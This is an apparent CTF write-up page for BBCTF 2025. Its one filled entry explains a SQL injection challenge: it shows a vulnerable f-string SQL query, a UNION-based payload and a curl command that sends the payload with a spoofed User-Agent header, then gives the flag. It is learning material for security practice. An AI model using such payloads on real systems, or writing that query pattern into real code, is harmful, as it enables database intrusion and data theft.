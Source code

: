 ```yaml
---
title: 'BBCTF 2025'
description: 'A compilation of BBCTF 2025 Writeups'
date: 2025-05-05
tags: ['BBCTF','CTF','Writeup']
image: './assets/openpage.png'
authors: ['bakayang','gr1d','w_11']
license: 'CC BY-NC-SA 4.0'
---
```

## [Forensics]

## [Web]

## SQLI Series - 1

### Goals
---
Exploit a SQL injection vulnerability to extract the flag from a database.

### Solution
---
1. Identify the vulnerability in the search function where user input is directly inserted into SQL query:
   ```python
   query = f"SELECT * FROM products WHERE name LIKE '%{search_term}%'"
   ```

2. Craft a payload to escape the string and use UNION-based injection:
   ```
   ' UNION SELECT 1, flag_value FROM flag -- 
   ```

3. Send request with required User-Agent header to bypass authentication check:
   ```bash
   curl -X POST http://target-url/ \
     -H "User-Agent: UMCS-CTF" \
     -d "search=' UNION SELECT 1, flag_value FROM flag -- "
   ```

### Final Result
---
**Flag:** `BBCTF{sql_inj3ct10n_101}`

